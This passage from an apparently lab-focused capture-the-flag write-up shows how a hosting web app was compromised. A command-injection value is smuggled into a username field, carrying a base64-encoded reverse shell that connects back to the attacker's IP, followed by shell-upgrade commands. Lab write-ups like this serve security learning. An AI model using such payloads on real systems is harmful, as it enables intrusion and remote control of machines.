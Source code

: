 Once our encoded payload is ready, we will pipe it for decoding and then to bash, while making sure to not include any whitespaces among the piped commands. With that, we will start a listener, send the request, and catch a reverse shell back (Figure 10).

{% code overflow="wrap" %}
```
# Payload 3
host=10.10.14.22&username=;{echo,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvMTMzNyAgMD4mMSAK}|{base64,-d}|bash;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/cozyhosting_rce.png" alt=""><figcaption><p>Figure 10: Injecting the payload and catching the reverse shell.</p></figcaption></figure>

Before moving forward, we make our life easier by [upgrading our shell](../../tools/shells/upgrade.md#script-python).

```bash
# Upgrading our shell
which script
script /dev/null -c /bin/bash
^Z
echo $TERM && stty size
stty raw -echo; fg
stty rows 51 cols 209
export TERM=xterm
```

## Privilege Escalation

### System Enumeration

In the working directory there is a JAR file which contains a lot of files, so we will transfer it to our attack host and inspect it there (Figure 11).
